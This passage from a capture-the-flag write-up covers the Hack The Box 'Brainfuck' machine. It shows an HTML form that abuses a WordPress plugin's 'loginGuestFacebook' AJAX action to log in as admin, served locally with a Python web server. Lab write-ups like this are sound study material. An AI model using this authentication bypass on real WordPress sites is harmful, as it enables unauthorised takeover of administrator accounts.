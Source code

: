 ```bash
</form>

Then you can go to admin panel.
```

So let's try this. I need the email and the username, but you can find them on the page

![Untitled](/assets/images/2021-10-13-brainfuck/Untitled.png)

So I create an index.html page with the following code:

```html
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="orestis@brainfuck.htb">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

I start the website and visit the page:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/brainfuck]
└─$ sudo python3 -m http.server 80                               
[sudo] password for user: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then, I visited the [localhost](http://localhost) webpage and click `login`:

![Untitled](/assets/images/2021-10-13-brainfuck/Untitled1.png)

After the page loads (note: there is no content), I went to the main page and reload it, you will automatically be logged in as admin:

![Untitled](/assets/images/2021-10-13-brainfuck/Untitled2.png)
